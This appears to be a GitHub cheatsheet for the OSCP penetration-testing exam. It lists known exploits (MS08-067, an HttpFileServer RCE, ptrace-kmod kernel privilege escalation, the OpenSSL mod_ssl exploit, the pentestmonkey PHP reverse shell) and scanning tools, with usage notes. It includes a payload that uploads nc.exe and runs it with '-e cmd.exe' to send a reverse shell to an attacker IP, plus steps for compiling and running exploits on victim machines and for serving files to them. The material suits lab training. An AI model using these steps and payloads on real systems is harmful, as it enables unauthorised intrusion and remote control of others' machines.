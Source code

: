 # cheatsheets and exploit code and scripts / OSCP
 

### Windows Exploits
<details><summary>**MS08-067 Python Remote Exploit**</summary>
<p>
(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it
</p>
</details>
<details><summary>HttpFileServer 2.3.x RCE</summary>
<p>
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

### Linux Exploits
<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>
(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>
(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.
Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>
(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>
(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>
(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>



